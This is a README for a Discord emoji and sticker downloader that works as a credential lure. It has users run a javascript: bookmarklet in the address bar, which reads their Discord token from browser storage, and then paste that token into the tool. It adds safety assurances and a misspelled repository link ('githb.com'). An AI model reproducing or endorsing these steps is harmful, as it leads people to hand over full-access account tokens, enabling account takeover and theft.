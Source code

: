 # 💾 Discord Emoji Downloader

> **Now with sticker support!**

A simple tool to download **all emojis and stickers** from any Discord server as a ZIP archive.

---

## ⚠️ Warning
> **Never share your Discord token with anyone even u record or take screenshots of the token.**
This tool is safe, open-source, and you can inspect the code yourself.

---
## Disclaimer:
 **This code is provided for educational purposes only. I do not take any responsibility for any illegal or malicious use of it.**
**Using this script to extract other people's Discord tokens is a violation of Discord's Terms of Service and may result in account bans or** **legal consequences.**
**You are fully responsible for any actions you take with this code. Use it only in your own local environment and never on other users’ browsers or accounts.**

## 🧪 How to Get Your Discord Token

> 📌 *For educational/testing purposes only!*

1. Open Discord on **Google Chrome** (PC).
2. Copy and paste the following code into the address bar and press Enter:
4. Paste and run the following code:
   ```js
   javascript:(function()%7Blocation.reload()%3Bvar%20i%20%3D%20document.createElement('iframe')%3Bdocument.body.appendChild(i)%3Bdocument.write(i.contentWindow.localStorage.token)%7D)()
Your token will appear like this:

'mfa.xxxxxxxxxxxxxxxxxxxxxxxxxxxx'
## ⚠️ Important Note:
 Make sure to remove the surrounding quotes **'** or **"** from the token before using it.
Example:
```js
token_abc123
```
'token_abc123' →
If you paste it with quotes, the tool won’t work.

## 🚀 How to Use
Open the tool.

Paste your cleaned Discord token.

Select the server you want.

Click Download.

Receive a ZIP file containing all emojis and stickers.

## 🔒 Is It Safe?
**✅ Yes, because no one can see your token.**

## 🤔 Still have doubts? No problem — just grab the GitHub URL and ask ChatGPT directly.

```js
📎 How to check:
Go to the GitHub link: githb.com/IIHUII/UWUSITE
Search the code and see if it contains anything malicious like mining scripts or token leaks.
Be smart. Always verify before you trust.
```

## ❓ FAQ
🧩 Does the tool support stickers?
Yes, it fully supports both emojis and stickers.

🔥 Can I get banned from Discord for using this?
Unlikely, but use at your own risk.
The tool reads emojis using your token, which could violate Discord’s Terms of Service if misused.

💡 Can I use someone else's token?
Absolutely not. That is a severe violation of Discord’s Terms and can result in a permanent ban.

💻 Is there a mobile version?
Not yet. The tool currently works only on desktop via Chrome.

🌐 Open the Website
Made with ❤️ by SEFO.php
